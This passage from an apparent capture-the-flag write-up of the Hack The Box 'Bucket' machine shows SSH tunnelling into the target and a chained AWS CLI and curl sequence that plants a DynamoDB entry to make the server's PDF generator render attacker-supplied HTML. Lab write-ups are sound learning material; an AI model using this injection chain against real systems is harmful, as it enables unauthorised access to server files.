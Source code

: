 For the initial test, as described in AWS documentation in [this link](https://docs.aws.amazon.com/cli/latest/userguide/cli-services-dynamodb.html), I've created a script to create the table, include the Ransomware entry, and then make the POST call to generate the PDF.

To make it easier this process, which is being executed from the attacker machine, executed the following processes:

- From the attacker machine, created an RSA key (`ssh-keygen`) and associated it with `roy`'s account to prevent asking for a password during the process.
- In the attacker machine was also made a port forwarding using SSH, allowing us to call port 8000 locally and this request would be routed to 8000 to bucket, as below

```bash
ssh roy@10.10.10.212 -L 8000:127.0.0.1:8000 
```

![Website 8000/TCP via SSH Tunnel](https://i.imgur.com/HIP7f4S.png)

After some attempts, noticed that similarly in the beginning while uploading the exploit, the tables and entries created were deleted, preventing us from easily getting the content desired. The solution was to chain the commands as made previously processing the request as soon as the resources were available, as well as the file copy later if we had success in the initial call.

```bash
aws dynamodb create-table \
    --table-name alerts \
    --attribute-definitions AttributeName=title,AttributeType=S AttributeName=data,AttributeType=S \
    --key-schema AttributeName=title,KeyType=HASH AttributeName=data,KeyType=RANGE \
    --provisioned-throughput ReadCapacityUnits=10,WriteCapacityUnits=10 \
    --endpoint-url http://s3.bucket.htb \
    --profile bucket.htb && \
aws dynamodb put-item \
    --table-name alerts \
    --item '{"title": {"S": "Ransomware"},"data": {"S": "<html><head><title>Title</title></head><body><h1>Head 1</h1><p>Content</p></body></html>"}}' \
    --return-consumed-capacity TOTAL \
    --endpoint-url http://s3.bucket.htb \
    --profile bucket.htb && \
curl --data "action=get_alerts" http://localhost:8000/
```

After a few attempts, successfully retrieved the `result.pdf` file with the content we have passed in the DynamoDB.

```bash
roy@bucket:/var/www/bucket-app/files$ ls -la
total 16
drwxr-x---+ 2 root root 4096 Feb 26 18:51 .
drwxr-x---+ 4 root root 4096 Feb 10 12:29 ..
-rw-r--r--  1 root root   88 Feb 26 18:51 7627.html
-rw-r--r--  1 root root 1870 Feb 26 18:51 result.pdf
```

![Bucket HTB - PoC](https://i.imgur.com/BQIYPiy.png){: .align-center}
